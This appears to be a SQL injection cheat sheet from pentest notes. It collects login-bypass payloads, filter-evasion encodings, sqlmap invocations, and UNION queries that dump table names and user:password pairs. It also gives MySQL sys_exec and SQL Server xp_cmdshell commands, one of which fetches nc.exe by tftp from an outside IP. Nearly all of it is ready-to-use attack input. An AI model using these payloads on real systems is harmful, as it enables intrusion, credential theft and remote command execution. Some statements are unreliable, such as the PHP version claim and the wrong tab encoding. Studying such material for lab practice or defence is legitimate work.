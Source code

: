 # SQLi : SQL Injection


````sql
SELECT * FROM user WHERE login='[USER]' and password='[PASSWORD]';
````
- Close the string : ' "
- Widen the request : or 1=1
- Add inputs with UNION
- Comment end of request : -- #

````
http://12.0.0.11/sqli/example1.php?name=root' or '1'='1
http://12.0.0.11/sqli/example1.php?name=root' or '1'=1
http://12.0.0.11/sqli/example1.php?name=root’ or 1=1-- -
http://12.0.0.11/sqli/example1.php?name=root%27%20or%20%271%27=%271
````

## SqlMap

Url: http://f4l13n5n0w.github.io/blog/2015/05/22/pentesterlab-web-for-pentester-sql-injection/
````
http://10.10.10.129/sqli/example1.php?name=root' or 1=1-- -

sqlmap -u "http://10.10.10.129/sqli/example1.php?name=root" --dbs --banner
````

## Avoid simple filters
### Limit returned results
````
a' or 1=1 LIMIT 1 #
````

Replace Space by Tab %09 
````
username=admin%27%09or%091%3D1%09--%09&password=admin
````

Bypass php function ‘addslashes’ used to insert strings in mysql requests
Use Chinese charset %bf%27  to set a ' in proxy
````
username=a%bf%27+or+1=1+#&password=b
````

Filter sur AND ou OR, les remplacer par
````
AND :   &&   %26%26 
OR  :  || 
````
Filtrage sur les Espaces -> newlines %A0, utiliser des \t TAB %90 , utiliser /**/
````
http://12.0.0.11/sqli/example2.php?name=root%27%A0or%A01=1--%A0-
````
Filter with : mysql_real_escape_string
````
$iId = mysql_real_escape_string("1 OR 1=1");
http://12.0.0.11/sqli/example4.php?id=2 OR  1=1
````

### Note: PHP <=5.2.6
SQL Injection won't work on PHP >= v5.2.6.
Unless php tuned for
````
<IfModule mod_php5.c>
    magic_quotes_gpc = Off
    allow_url_fopen = On
    allow_url_include = On
</IfModule>
````

### Identify number of fields in select

```
id=engineer order by 10-- throws an error
id=engineer order by 9-- throws an error
id=engineer order by 4-- ok => 4 field

UNION SELECT 1,2,3,4
```


### Use Union
````
http://ptl-544ad5ad-8438986c.libcurl.so/cat.php?id=1 or 1=1 UNION SELECT 1
http://ptl-544ad5ad-8438986c.libcurl.so/cat.php?id=1 or 1=1 UNION SELECT 1,2
http://ptl-544ad5ad-8438986c.libcurl.so/cat.php?id=1 or 1=1 UNION SELECT 1,2,3,4
````
Identify number of fields in select: here 1,2,3,4 doesn’t generate error


### Get table names

```
name=a&pass=admin' or 1=1 UNION SELECT 1,2
name=a&pass=admin' or 1=1 UNION SELECT table_name,table_name FROM information_schema.tables; -- -  
```


### Get table column names


```
name=a&pass=admin' or 1=1 UNION SELECT column_name,column_name FROM information_schema.columns WHERE  table_name='users'; -- -

```

### dump table 
```
name=a&pass=admin' or 1=1 UNION SELECT concat(name,':',pass),1 FROM users; -- -
```


### Dump des users de mysql

```
name=a&pass=admin' or 1=1 UNION SELECT concat(User,':',Password),1 FROM user; -- -
Internal Serever Error: Pas le droit..
```

#### Escape cotes

hex-encoded value of “secret” better than messing with quotes. : table_schema='secret' => table_schema=0x736563726574

```
id=engineer union all select 1,table_name,3,4,5,6,7 from information_schema.tables where table_schema=0x736563726574 --
```


## MySql

````
select sys_exec('/bin/sh');
after bash access, “bash –p” or “sudo su”
````

##  SQL Server 

Connect to:
````
sqsh -S hostname -Uusername -Ppassword
use database;
go
select * from tblTable;
go
````

If xp_cmdshell is enabled
````
exec master..xp_cmdshell 'type c:\"Documents and Settings"\Administrator\Desktop\proof.txt'
go
EXEC master..xp_cmdshell 'tftp -i 192.168.168.168 GET nc.exe'
go
````



## SQLMap


Copy Burp request : search-test.txt
```
./sqlmap.py -r search-test.txt -p tfUPass

```